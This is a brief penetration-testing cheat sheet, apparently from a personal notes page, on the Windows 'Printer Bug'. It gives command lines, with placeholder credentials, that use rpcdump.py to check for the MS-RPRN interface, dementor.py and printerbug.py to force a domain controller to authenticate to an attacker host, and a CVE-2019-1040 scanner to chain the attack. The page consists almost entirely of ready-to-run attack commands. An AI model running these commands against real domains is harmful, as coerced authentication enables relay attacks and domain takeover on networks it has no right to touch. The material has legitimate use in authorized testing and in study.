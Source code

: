 # Printer Bug




## Validate

```
$ rpcdump.py MEGACORP/snovvcrash:'Passw0rd!'@192.168.1.11 | grep -A2 MS-RPRN
```




## Trigger



### dementor.py

* [https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc)

```
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 DC01.megacorp.local
```



### printerbug.py

* [https://https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)

```
$ python printerbug.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local 10.10.13.37
```




## Chain



### CVE-2019-1040-scanner

* [https://github.com/fox-it/cve-2019-1040-scanner/blob/master/scan.py](https://github.com/fox-it/cve-2019-1040-scanner/blob/master/scan.py)

```
$ python scan.py MEGACORP/snovvcrash:'Passw0rd!'@192.168.1.11
$ python scan.py -target-file DCs.txt MEGACORP/snovvcrash:'Passw0rd!'@placeholder.xyz
```
